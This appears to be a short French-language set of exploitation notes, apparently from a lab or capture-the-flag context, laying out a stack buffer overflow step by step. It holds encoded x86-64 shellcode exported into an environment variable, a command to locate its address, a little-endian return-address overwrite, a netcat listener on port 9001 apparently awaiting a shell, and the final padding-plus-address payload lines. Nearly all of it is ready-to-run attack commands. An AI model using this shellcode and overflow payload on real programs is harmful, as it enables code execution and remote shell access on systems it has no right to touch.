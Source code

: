 ```
gcc getenvvar.c -o getenvvar
```

2. Exporter le shell code dans une variable d'environment

```
export PWN=`python2.7 -c 'print "\x48\x31\xc9\x48\x81\xe9\xfd\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\xf2\xfc\x73\xdf\x15\xee\x93\x23\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xba\x44\x5c\xbd\x7c\x80\xbc\x50\x9a\xfc\xea\x8f\x41\xb1\xc1\x7d\x98\xc7\x2b\xd0\x10\xee\x93\x23"'`
```

3. Identifier l'adresse de retour

```
getenvvar PWN ./<prog>
```


4. Modifier l'EIF avec l'adresse de retour (en Little Endian donc à l'envers + canonical (0x7fffffffe7b9 -> \xb9\xe7\xff\xff\xff\x7f\x00\x00))

5. Lancer listener netcat (ou pas)

```bash
nc -nvlp 9001
```

4. Exécuter le programme en dehors de gdb avec l'adresse de retour

```shell-session
./<prog> $(python -c 'print "\x55" * <nb_caracteres> + "\xb9\xe7\xff\xff\xff\x7f\x00\x00"')
```

```shell-session
(python -c 'print "\x55" * <nb_caracteres> + "\xb9\xe7\xff\xff\xff\x7f\x00\x00"') | ./<prog>
```
